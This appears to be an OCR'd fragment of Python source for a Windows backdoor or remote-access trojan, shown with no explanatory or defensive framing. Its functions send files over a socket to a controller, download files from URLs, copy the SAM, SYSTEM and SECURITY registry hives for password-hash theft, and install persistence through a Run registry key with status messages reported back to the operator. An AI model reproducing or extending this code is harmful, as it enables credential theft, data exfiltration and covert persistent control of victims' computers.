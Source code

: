 ```
def upload_file(file_name):
    f = open(file_name, "rb")
    s.send(f.read())
    f.close()


def download_url(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)


def get_sam_dump():
    if not is_admin():
        return "You must run this function as an Administrator."

    SAM = r"C:\\Windows\\System32\\config\\SAM"
    SYSTEM = r"C:\\Windows\\System32\\config\\SYSTEM"
    SECURITY = r"C:\\Windows\\System32\\config\\SECURITY"

    try:
        sam_file = open(SAM, "rb")
        system_file = open(SYSTEM, "rb")
        security_file = open(SECURITY, "rb")

        sam_data = sam_file.read()
        system_data = system_file.read()
        security_data = security_file.read()

        sam_file.close()
        system_file.close()
        security_file.close()

        return sam_data, system_data, security_data
    except PermissionError:
        return "Insufficient permissions to access SAM, SYSTEM, or SECURITY files."
    except FileNotFoundError:
        return "SAM, SYSTEM, or SECURITY file not found. Please check the file paths."
    except Exception as e:
        return f"An unexpected error occurred: {str(e)}"


def persist(reg_name, copy_name):
    file_location = os.environ["appdata"] + "\\" + copy_name
    try:
        if not os.path.exists(file_location):
            shutil.copyfile(sys.executable, file_location)
            subprocess.call(
                "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v "
                + reg_name
                + ' /t REG_SZ /d "'
                + file_location
                + '"',
                shell=True,
            )
            reliable_send("[+] Created Persistence With Reg Key: " + reg_name)
        else:
            reliable_send("[+] Persistence Already Exists")
    except:
        reliable_send("[-] Error Creating Persistence With The Target Machine")


```